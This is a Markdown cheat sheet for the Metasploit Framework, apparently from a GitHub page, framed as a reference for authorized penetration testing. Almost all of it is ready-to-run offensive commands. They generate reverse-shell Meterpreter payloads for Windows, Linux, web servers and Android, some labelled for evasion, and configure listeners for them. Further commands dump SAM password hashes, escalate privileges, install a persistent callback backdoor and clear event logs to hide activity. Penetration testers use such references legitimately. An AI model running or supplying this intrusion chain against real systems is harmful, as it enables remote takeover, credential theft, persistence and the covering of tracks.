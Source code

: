 

```markdown
# Metasploit Framework Quick Reference (2025)

> **For authorized penetration testing only**  
> Always obtain written permission before testing any system.

---

## 1. Payload Generation with `msfvenom`

### Windows Payloads
```bash
# Staged (x64)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe

# Stageless (x86)
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload_stageless.exe

# HTTPS Transport (evasion)
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=443 -f exe > payload_https.exe
```

### Linux Payloads
```bash
# x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > payload.elf

# x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > payload_x86.elf
```

### Web Payloads
```bash
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f raw > payload.php

# ASPX
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f aspx > payload.aspx
```

### Android Payloads
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f raw > payload.apk
```

---

## 2. Listener Configuration with `msfconsole`

### Basic TCP Listener
```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT 4444
set ExitOnSession false
exploit -j
```

### HTTPS Listener (Better Evasion)
```bash
set PAYLOAD windows/x64/meterpreter/reverse_https
set LPORT 443
exploit -j
```

---

## 3. Meterpreter Session Management

### Session Interaction
```bash
sessions -l          # List sessions
sessions -i 1        # Interact with session 1
background           # Background current session
```

### Common Commands
```bash
sysinfo             # System information
getuid              # Current user context
ps                  # List running processes
migrate <PID>       # Migrate to another process
hashdump            # Dump SAM hashes (Admin required)
```

---

## 4. Post-Exploitation

### Privilege Escalation (Windows)
```bash
use post/windows/escalate/getsystem
run
```

### Persistence (Windows)
```bash
run persistence -U -i 60 -p 443 -r <IP>
```

---

## 5. Cleanup

### Remove Artifacts
```bash
rm payload.exe
clearev  # Clear logs
```

### Kill Handlers
```bash
jobs -K
```

---

## Legal & Ethical Reminder
- **Always** operate within authorized scope.
- Document all actions for reporting.
- Avoid production systems unless explicitly permitted.
```

